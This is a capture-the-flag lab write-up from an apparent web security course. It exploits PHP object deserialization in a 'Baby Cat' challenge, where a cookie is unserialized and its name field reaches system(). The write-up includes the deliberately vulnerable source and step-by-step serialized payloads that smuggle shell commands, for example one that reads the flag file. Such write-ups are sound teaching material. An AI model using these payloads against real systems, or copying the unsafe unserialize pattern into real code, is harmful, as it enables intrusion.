 ```yaml
---
title: Simple Web 0x17(Lab - Baby Cat)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Deserialization"
---
```


# Simple Web 0x17(Lab - Baby Cat)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8601/

## Background
[0x16.5(php unserialize)](/FkF8p-zrSMSOWFkE4vvAJQ)
## Source code
:::spoiler code
```php=
<?php
isset($_GET['source']) && die(!show_source(__FILE__));

class Cat
{
    public $name = '(guest cat)';
    function __construct($name)
    {
        $this->name = $name;
    }
    function __wakeup()
    {
        echo "<pre>";
        system("cowsay 'Welcome back, $this->name'");
        echo "</pre>";
    }
}

if (!isset($_COOKIE['cat_session'])) {
    $cat = new Cat("cat_" . rand(0, 0xffff));
    setcookie('cat_session', base64_encode(serialize($cat)));
} else {
    $cat = unserialize(base64_decode($_COOKIE['cat_session']));
}
?>
<p>Hello, <?= $cat->name ?>.</p>
<a href="/?source">source code</a>
```
:::
## Exploit - deserialize
1. Use psysh to test payload
In local side, if you haven't install `cowsay`, the payload should be `'||ls -al'`
    ```bash!
    $ ./psysh
    > system("cowsay 'Welcome back, '||pwd''");
    sh: 1: cowsay: not found
    /home/sbk6401
    = "/home/sbk6401"
    ```
2. Construct testing case
    ```bash!
    $ ./psysh
    > class Cat{
    . public $name = '(guest cat)';
    . function __construct($name){$this->name = $name;}
    . function __wakeup(){system("cowsay 'Welcome back, $this->name'");}}
    > $cat = new Cat("'&&ls -al /'")
    = Cat {#2785
        +name: "'&&ls -al /'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9"
    ```
    Then change`cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czoxMjoiJyYmbHMgLWFsIC8nIjt9` and we'll get the response
    ![](https://i.imgur.com/oTHtA0U.png)

3. Get flag
    ```bash!
    > $cat = new Cat("'&&cat /flag_5fb2acebf1d0c558'")
    = Cat {#2789
        +name: "'&&cat /flag_5fb2acebf1d0c558'",
      }

    > base64_encode(serialize($cat))
    = "TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9"
    ```
    Again! Modify `cat_session` to `TzozOiJDYXQiOjE6e3M6NDoibmFtZSI7czozMDoiJyYmY2F0IC9mbGFnXzVmYjJhY2ViZjFkMGM1NTgnIjt9` then we'll get flag
    ![](https://i.imgur.com/y5HHWDZ.png)